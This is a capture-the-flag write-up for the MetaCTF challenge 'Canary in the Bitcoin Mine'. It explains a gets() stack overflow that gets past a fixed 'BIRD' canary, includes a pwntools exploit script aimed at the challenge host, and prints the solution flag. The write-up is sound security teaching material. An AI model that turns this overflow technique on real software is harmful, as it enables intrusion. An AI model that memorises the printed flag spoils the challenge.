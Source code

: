 # Canary in the Bitcoin Mine - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/CanaryInTheBitcoinMine.gif)

---

## Challenge Summary

This challenge simulates a buffer overflow scenario protected by a stack canary. The program reads user input into a fixed-size buffer using the unsafe gets() function. The buffer is followed by a canary value (0x44524942, representing "BIRD"), and a boolean flag earnedFlag.

If the input overwrites the canary, the program detects the corruption and exits. To earn the flag, the attacker must carefully overflow the buffer without corrupting the canary, and set the earnedFlag variable to true. Once set, the hidden win() function is triggered to print the flag from flag.txt.

## Binary Information

```bash
$ file canary_in_the_bitcoin_mine
```

![Alt text](img/2.png)

```bash
$ pwn checksec canary_in_the_bitcoin_mine
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

- The program declares a local struct `mineshaft` containing a 64-byte buffer `mine`, a 4-byte canary (`canary`), and a boolean flag (`earnedFlag`).
- The `gets()` function is used to read user input into `mine` without bounds checking, making it vulnerable to buffer overflow.
- The canary is initialized to `0x44524942` (`"BIRD"` in little-endian) and checked after input to detect overflow.
- If the canary value is modified, the program exits immediately.
- The boolean flag `earnedFlag` is initially `false`. The program checks it after input and calls `win()` to print the flag only if this flag is set to `true`.

  ![Alt text](img/4.png)

- The overflow vulnerability can be exploited by overwriting memory **past the buffer but before the canary** to control `earnedFlag` without corrupting the canary.
- CLion’s debugger can help visualize the memory layout, allowing precise calculation of overflow offsets to manipulate `earnedFlag` safely.

  ![Alt text](img/5.png)

  This analysis highlights a classic **stack buffer overflow with canary protection**, requiring careful input crafting to bypass the canary check and set `earnedFlag` to gain the flag.

  ![Alt text](img/6.png)

---

## Exploit Strategy

Use a carefully crafted input to overflow the buffer and set the earnedFlag to true without overwriting the canary. This triggers the win() function and reveals the flag. Precise control is needed to avoid canary corruption while modifying adjacent memory.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template canary_in_the_bitcoin_mine --host host3.metaproblems.com --port 5980
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'canary_in_the_bitcoin_mine')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host3.metaproblems.com'
port = int(args.PORT or 5980)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

BUFFER = b'A' * 64
CANARY = b'BIRD'
EARNED_FLAG = b'true'

payload = flat(
        BUFFER,
        CANARY,
        EARNED_FLAG
)
io.sendline(payload)
io.recvuntil(b"Well done, you've earned the flag!")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output

![Alt text](img/7.png)

---

## Vulnerability Summary

The program uses the unsafe gets() function to read input into a fixed-size buffer. Although a stack canary protects against full overflow detection, it is possible to overflow just enough to overwrite the adjacent earnedFlag boolean without altering the canary. This allows attackers to bypass protections and trigger the hidden win() function to read the flag.

## Flag

```
MetaCTF{g0t_7h3_fl4g_4nd_s4v3d_7h3_canary}
```
